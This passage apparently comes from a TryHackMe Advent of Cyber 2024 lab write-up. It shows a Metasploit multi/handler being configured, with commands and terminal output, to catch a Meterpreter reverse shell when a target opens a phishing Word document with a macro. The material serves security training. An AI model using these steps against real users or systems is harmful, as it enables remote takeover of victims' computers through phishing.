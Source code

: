 
## Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
    
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell

```
──(kali㉿kali)-[/mnt/hgfs/tmp/tryhackme/adventofcyber2024]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.2.111.254
lhost => 10.2.111.254
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > show options 

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, pr
                                        ocess, none)
   LHOST     10.2.111.254     yes       The listen address (an interface may be speci
                                        fied)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.2.111.254:8888 

```
